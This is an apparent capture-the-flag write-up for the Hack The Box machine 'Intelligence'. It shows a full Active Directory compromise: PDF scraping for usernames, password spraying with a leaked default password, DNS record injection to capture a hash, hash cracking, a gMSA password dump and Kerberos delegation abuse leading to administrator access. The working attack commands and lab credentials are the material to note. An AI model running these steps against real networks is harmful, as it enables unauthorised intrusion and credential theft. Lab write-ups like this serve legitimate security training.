


# [Intelligence](https://app.hackthebox.com/machines/intelligence)


```bash
nmap -p- --min-rate 10000 10.10.10.248 -Pn
```


After detection of open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p53,80,135,139,389,445,464,593,636,3268,3269,5985,9389 10.10.10.248
```


After visiting web application, I see PDF files on '/documents' folder.


I also write this ip address into **'/etc/hosts'** file.


Let's start to enumeration to find another `.pdf` files can store sensitive informations.


I wrote Python script for this as below, also PDF information which we can know creator name , I wrote their names into `users` file to guess that they are domain users or not.

```python
#!/usr/bin/env python3

import datetime
import io
import PyPDF2
import requests


t = datetime.datetime(2020, 1, 1)
end = datetime.datetime(2021, 7, 4)
keywords = ['user', 'password', 'account', 'intelligence', 'htb', 'login', 'service', 'new']
users = set()

while True:
    url = t.strftime("http://intelligence.htb/documents/%Y-%m-%d-upload.pdf")
    resp = requests.get(url)
    if resp.status_code == 200:
        with io.BytesIO(resp.content) as data:
            pdf = PyPDF2.PdfFileReader(data)
            users.add(pdf.getDocumentInfo()['/Creator'])
            for page in range(pdf.getNumPages()):
                text = pdf.getPage(page).extractText()
                if any([k in text.lower() for k in keywords]):
                    print(f'==={url}===\n{text}')
    t = t + datetime.timedelta(days=1)
    if t >= end:
        break

with open('users', 'w') as f:
    f.write('\n'.join(users)) 
```


I found a [pdf](http://intelligence.htb/documents/2020-06-04-upload.pdf) which is about New Account Guide (default password)




Script result is here.


Let's analyze this users that Domain users are or not via `kerbrute` tool.

```bash
kerbrute -users users -domain intelligence.htb -dc-ip 10.10.10.248 
```


From PDF, we know that default password is '**NewIntelligenceCorpUser9876**'.

Let's do `Password Spray` attack that one password is for all users.

```bash
crackmapexec smb 10.10.10.248 -u users -p NewIntelligenceCorpUser9876 --continue-on-success
```


Let's access SMB for Tiffany.Molina:NewIntelligenceCorpUser9876  user.

First, let's know what shares this user have access via `smbmap` tool.

```bash
smbmap -H 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876
```


Let's access `Users` share via this account which we have '**Read**' permission.

```bash
smbclient -U '10.10.10.248\Tiffany.Molina' //10.10.10.248/Users
```


I found `user.txt` on Desktop folder on SMB share.


user.txt


While looking at shares, I found cronjob `powershell` script which run for every 5 minutes.

```bash
smbclient -U '10.10.10.248\Tiffany.Molina' //10.10.10.248/IT
```


Script's purpose:
The script goes into LDAP and gets a list of all the computers, and then loops over the ones where the name starts with “web”. It will try to issue a web request to that server (with the running users’s credentials), and if the status code isn’t 200, it will email Ted.Graves and let them know that the host is down. The comment at the top says it is scheduled to run every five minutes.


Let's use this [script](https://github.com/dirkjanm/krbrelayx)
```bash
python3 dnstool.py -u intelligence\\Tiffany.Molina -p NewIntelligenceCorpUser9876 --action add --record web-dr4ks --data 10.10.16.6 --type A 10.10.10.248
```


Yes, I grabbed hash of user.


Let's crack hash of this user via `hashcat` command.

```bash
hashcat -m 5600 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```


Ted.Graves:Mr.Teddy

Let's check this username and password via `crackmapexec` command.

```bash
crackmapexec smb 10.10.10.248 -u Ted.Graves -p Mr.Teddy -d intelligence.htb
```




Let's use this credentials for bloodhound.

```bash
bloodhound-python -d intelligence.htb -u Ted.Graves -p Mr.Teddy -c all -ns 10.10.10.248
```


Let's add this data into `bloodhound` console.


From below image, I see that my user (Ted.Graves) is in group called 'ITSUPPORT@INTELLIGENCE.HTB', and this group's users can read GMSAPASSWORD easily.


I found a [script](https://github.com/micahvandeusen/gMSADumper) to dump password hash of service user.


One interesting point for this service user 'svc_int' has permission over Domain Controller, permission called 'AllowedToDelegate'.


Let's abuse this privilege via `getST.py` script of `Impacket` module.

```bash
python3 /usr/share/doc/python3-impacket/examples/getST.py -dc-ip 10.10.10.248 -spn www/dc.intelligence.htb -hashes :e0dcda8d93bf71a6352ea7803c8f17f1 -impersonate administrator intelligence.htb/svc_int
```


Reminder! We need to set up time for our target.
```bash
sudo service virtualbox-guest-utils stop
sudo ntpdate 10.10.10.248 
```

As we create our forged ticket, let's login via `wmiexec.py` script of `Impacket` module.

First, we need to add ticket into our `klist` session.
```bash
KRB5CCNAME=administrator.ccache klist
```

```bash
KRB5CCNAME=administrator.ccache python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -k -no-pass administrator@dc.intelligence.htb
```


root.txt

